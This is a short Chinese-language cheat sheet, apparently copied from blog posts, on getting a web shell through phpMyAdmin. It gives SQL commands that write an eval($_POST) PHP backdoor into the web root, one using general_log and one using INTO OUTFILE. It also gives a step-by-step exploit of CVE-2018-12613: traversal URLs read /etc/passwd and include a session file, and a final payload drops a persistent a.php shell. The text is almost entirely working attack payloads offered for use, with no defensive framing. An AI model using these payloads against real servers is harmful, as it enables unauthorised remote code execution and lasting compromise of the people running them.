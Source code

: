 [phpmyadmin写shell](https://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484470&idx=1&sn=b2f7b56028ddf701a903d981e58e324e) [2](https://blog.csdn.net/qq_40638006/article/details/122033546)


### phpMyadmin 后台日志写shell
方式1.登录到后台日志写shell
```shell
show global variables like "%genera%";    #查询general_log全局变量配置
set global general_log='on';             #开启生成日志
SET global general_log_file='C:/phpStudy/www/shell.php'; #设置日志存储路径
select "<?php eval($_POST['cmd']);?>";   #写入一句话
set global general_log='off';             #关闭general_log模式
```

方式2.

```shell
select "<?php @eval($_POST[yxcms]);?>" into outfile " C://phpstudy/www/info.php"
```
需要配置文件中 secure-file-priv 值为NULL, 且更改后需重启服务才生效且更改后需重启服务才生效


### CVE-2018-12613 文件包含
[phpMyAdmin 4.8.0和4.8.1](https://blog.csdn.net/qq_38626043/article/details/119620612)

http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
可见/etc/passwd被读取, 后面进行 session 包含读马

在同一窗口执行，防止 session改变
test库执行sql `select '<?php phpinfo(); ?>'`

F12 - Application - Cookies 看到 session: `b38ba3b7116d19bb294a73c12229db12` 访问成功显示 phpinfo();

http://192.168.50.8:2003/index.php?target=db_datadict.php%253f../../../../../../../../../tmp/sess_0b71943960b781880a45a642c4179c4d

再执行sql。不要管错误
```sql
select `<?php fputs(fopen("a.php","w"),'<?php eval($_POST[a]);?>');?>`
```

访问 http://192.168.50.8:2003/index.php?target=db_datadict.php%253f../../../../../../../../../tmp/sess_0b71943960b781880a45a642c4179c4d

完成a.php的添加:   http://192.168.50.8:2003/a.php